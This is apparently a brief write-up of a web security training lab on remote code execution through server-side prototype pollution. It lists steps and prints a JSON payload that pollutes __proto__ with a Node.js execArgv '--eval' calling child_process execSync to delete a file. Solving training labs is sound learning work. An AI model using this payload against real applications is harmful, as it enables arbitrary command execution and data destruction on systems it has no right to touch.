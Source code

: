 ## Lab: Remote code execution via server-side prototype pollution 
1. Login to account 
2. Update address
3. Check if you are able to inject the `__proto__` payload
4. It's reflecting 
5. Now add the followng exploit
    ```json
    {
        "address_line_1": "Wiener HQs",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "bDkgPHB9d2HbImMaUkrTNzXLCcFxFMgh",
        "__proto__": {
            "execArgv": [
            "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
            ]
        }
    }
    ```
6. It worked

